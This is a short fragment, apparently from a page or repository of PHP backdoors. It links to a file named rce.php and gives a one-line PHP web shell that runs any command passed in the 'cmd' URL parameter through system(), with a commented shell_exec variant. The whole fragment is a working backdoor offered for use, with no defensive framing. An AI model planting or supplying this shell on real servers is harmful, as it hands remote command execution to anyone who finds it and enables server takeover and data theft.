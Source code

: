 https://raw.githubusercontent.com/F-Masood/php-backdoors/main/rce.php

```bash

<?php system($_GET['cmd']); ?>

//or

//<?php echo (shell_exec($_GET['cmd'])); ?>

```
